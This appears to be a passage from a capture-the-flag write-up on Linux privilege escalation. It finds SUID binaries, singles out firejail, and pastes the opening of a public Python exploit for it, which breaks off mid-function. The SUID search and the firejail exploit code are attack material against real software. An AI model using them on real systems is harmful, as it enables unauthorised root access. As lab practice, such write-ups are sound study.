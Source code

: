 ## SUID

Look for all binaries with suid flag:

```bash
$ find \-perm -4000 -user root 2>/dev/null
...
/usr/local/bin/firejail
...
$ ls -la /usr/local/bin/firejail
-rwsr-x--- 1 root jailer 1777952 Nov 29  2022 /usr/local/bin/firejail
```

It has SUID permission. So we can use that for exploitation. We search in Google for Firejail Exploit. We found this [here](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25).

We copy it in **atlas** shell and named it as exp.py and gave it executable permission.

```python
#!/usr/bin/python3

import os
import shutil
import stat
import subprocess
import sys
import tempfile
import time
from pathlib import Path

# Print error message and exit with status 1
def printe(*args, **kwargs):
    kwargs['file'] = sys.stderr
    print(*args, **kwargs)
    sys.exit(1)

# Return a boolean whether the given file path fulfils the requirements for the
# exploit to succeed:
# - owned by uid 0
# - size of 1 byte
# - the content is a single '1' ASCII character
def checkFile(f):
    s = os.stat(f)

    if s.st_uid != 0 or s.st_size != 1 or not stat.S_ISREG(s.st_mode):
        return False

    with open(f) as fd:
        ch = fd.read(2)

        if len(ch) != 1 or ch != "1":
            return False

    return True

def mountTmpFS(loc):
    subprocess.check_call("mount -t tmpfs none".split() + [loc])

def bindMount(src, dst):
    subprocess.check_call("mount --bind".split() + [src, dst])

def checkSelfExecutable():
    s = os.stat(__file__)

    if (s.st_mode & stat.S_IXUSR) == 0:
```